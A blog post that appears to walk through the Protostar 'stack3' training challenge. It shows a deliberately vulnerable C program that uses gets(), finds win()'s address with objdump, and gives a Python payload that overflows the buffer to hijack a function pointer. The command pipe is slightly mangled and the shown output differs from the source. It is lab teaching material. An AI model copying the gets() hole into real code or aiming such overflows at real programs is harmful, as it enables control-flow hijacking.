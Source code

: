 ```yaml
---
layout: post
title: "Redirecting Code To Specific Address: protostar stack3"
date: 2018-10-23 16:02:45 -700
categories: jekyll update
---
```

Let's look at this next challenge

{% highlight c %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
{% endhighlight %}
Here we have a function outside of the main() called win() and in the main we have a blank function pointer within main, conveniently located right after the end of a buffer. 

If you are not familiar with how a c program runs, the code contained in the main() will be executed, and other functions outside of it are typically called within main. Since the function win() is never called by main(), it will never execute. Unless you are a hacker. 

The basic idea is the same for this program, we will overflow the buffer and write whatever we want to the fp() pointer. In this case, we need to write the address of the win() function.

There are many ways to get the address of the main function including using a debugger like GDB (a tool I use a lot), but for the sake of simplicity, I will show how to find this address using a command called objdump.

objdump has many uses, but for our purpose we should run it with the -S flag, in order to get the source, which will contain memory addresses of functions. We can also use grep to give us only the win() address.

$objdump -S stack3 - grep win

08048424 <win>:

$

Now we have the address.

$python -c 'print "A"*64 + "\x24\x84\x04\x08"' | ./stack3

calling function at 0x08048424
code flow successfully changed

Cool. We have changed the code flow to a specific part of memory. This is a very useful tactic, which will be expanded upon in later challenges. 